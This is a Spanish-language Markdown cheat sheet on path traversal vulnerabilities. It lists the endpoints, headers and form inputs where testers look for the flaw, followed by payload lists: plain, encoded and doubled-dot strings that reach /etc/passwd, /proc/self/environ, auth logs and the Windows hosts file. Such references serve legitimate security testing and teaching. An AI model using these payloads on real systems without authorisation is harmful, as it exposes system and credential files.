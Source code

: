 # Path Traversal

## Descripción

La vulnerabilidad de **Path Traversal** permite a un atacante acceder a archivos y directorios fuera del área permitida por la aplicación, utilizando entradas manipuladas. Esto ocurre cuando la aplicación no valida correctamente los inputs proporcionados por el usuario que se utilizan en operaciones del sistema de archivos, como leer o escribir archivos.

Un ataque exitoso podría permitir el acceso a archivos sensibles, como configuraciones del servidor, contraseñas o claves privadas, lo que pone en riesgo la seguridad de la aplicación y los datos del usuario.

---

## Dónde buscar Path Traversal

### Endpoints comunes
- **Descarga de archivos** (`/download?file=`).
- **Carga de archivos** (análisis de rutas después de la carga).
- **Visualización de archivos** (`/view?file=`).
- **Exportación de logs** (`/logs?file=`).
- **Parámetros en APIs REST**:
  - `GET /api/v1/files?path=`
  - `POST /api/v1/files`
- **Configuración de plantillas o temas** (`/themes?template=`).
- **Mecanismos de backup o restauración** (`/backup?file=`).

### Cabeceras HTTP
- **Referer**: Podría contener rutas manipuladas.
- **User-Agent**: Inyección de rutas en logs que luego son procesados.

### Formularios y datos del usuario
- **Cajas de texto o inputs**: Parámetros donde los usuarios ingresan rutas manualmente.
- **Archivos JSON o XML**: Datos estructurados que podrían incluir rutas manipuladas.

---

## Payloads comunes

### Básicos
```bash
../../../../etc/passwd
..\..\..\..\Windows\System32\drivers\etc\hosts
```

### Codificados
```bash
..%2F..%2F..%2F..%2Fetc%2Fpasswd
..%5C..%5C..%5C..%5CWindows%5CSystem32%5Cdrivers%5Cetc%5Chosts
```

### Combinados
```bash
....//....//....//etc/passwd
....\\....\\....\\Windows\\System32\\drivers\\etc\\hosts
```

### Variables de entorno (en sistemas UNIX)
```bash
../../../../proc/self/environ
../../../../var/log/auth.log
```

### Rutas absolutas (en sistemas UNIX)
```bash
/../../../../etc/passwd
```
